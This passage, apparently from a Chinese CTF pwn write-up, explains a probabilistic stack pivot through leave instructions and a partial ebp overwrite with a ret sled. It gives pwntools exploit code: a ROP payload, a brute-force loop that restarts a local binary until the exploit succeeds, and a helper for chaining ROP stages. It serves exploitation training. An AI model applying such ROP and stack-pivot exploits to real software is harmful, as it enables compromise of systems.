 因为概率性跳转到不定位置, 因此我们在前面输入大量ret作为滑板, 同时, 在leave语句中这个滑板会赋值给ebp, 

其实我们使用漏洞修改了ebp低位为00, 然后在show中激活漏洞确保两次leave栈迁移向上了几位, 此时ebp值又被修改, 我们可以leave再赋值给esp, 栈迁移到这个位置, 同时这个地址我们知道, 也就可以构造rop向其中写入数据, 然后leave,

经过调试, 我们可以在内存中找到我们的数据, 

![image-20210729105714242](https://i.loli.net/2021/07/29/KqnJX9soGPFvLUy.png)

同时, 这个思路可行,

![image-20210729110106361](https://i.loli.net/2021/07/29/HYSwaZGftNpKJs4.png)

然后栈迁移到了0x65b位置,

> 需要注意的是leave的运行, 首先设置rsp, 然后pop出rbp, 
>
> 因此leave的是后, rsp=rbp=0x653, 然后pop, rbp=[0x653]=0, rsp=0x653+8
>
> 后续我们再次leave, rsp=0, 此后我们向0+8地址写入rop, 并最后写入leave, 这样运行完一段rop后rsp会重回0地址, 然后再次运行下一段,

但是这里是概率性爆破, 在此处设置为exp1, 并打印出一个字符串作为成功标识, 

```python
def exp1():
    change()
    payload = flat(ret, ret, ret, ret, ret, ret, ret, pop, 0x65b, 0x1000, read, leave)
    sla("choice>> ", "2")
    sa("idx:", payload)
    payload = flat(pop, strchange, 0, printf, pop , 8, 0x1000,  read, leave)
    sl(payload)
    ru("challenge")

while 1:
    cn = process("./rbin")
    try:
        exp1()
        break
    except:
        try:
            cn.close()
        except:
            print("none")

```

然后根据这个机制写了个这个函数, arr就是rop链, 然后number指定下一次的地址,其实可以0/0x500 反复跳, 因为担心正在运行的rop被修改,因此每次不能都写0, 

```python
def rop(arr, number):
    return flat(number, arr, pop, number, 0x1000, read, leave)
```

可以多次rop: 

![image-20210729112016019](https://i.loli.net/2021/07/29/chRsfUzN3XvMPEJ.png)
